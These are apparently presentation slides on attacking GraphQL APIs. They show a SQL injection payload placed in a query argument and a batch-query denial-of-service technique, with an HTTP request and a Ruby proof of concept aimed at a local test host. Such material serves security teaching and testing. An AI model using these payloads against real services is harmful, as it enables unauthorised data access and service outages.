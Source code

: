 GraphQL API often fetch data from a DB.

Where to inject in order to detect a SQLi?

---

The only injectable inputs are _Arguments_.

```graphql
query {
  user(name: "' or 1=1 --") {
    id
      email
  }
}
```

---

### Denial of Service - Batch Query Attack (JSON array)

1. Find a query that take a long time to execute
2. Batch it!

---

GraphQL query:

```graphql
{
  systemUpdate
}
```

HTTP request:

```http
POST /graphql HTTP/1.1
...
Content-Type: application/json

{"query":"{\n\tsystemUpdate\n}"}
```

---

GraphQL query:

Most GraphQL client don't support batch query, they often have a mode to select one or another but won't send both on the HTTP JSON. So we'll have to craft the HTTP request ourselves.

---

Ruby PoC for batch querying:

```ruby
require 'httpx'

data = Array.new(3) {
  { 'query' => 'query { systemUpdate }'}
}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---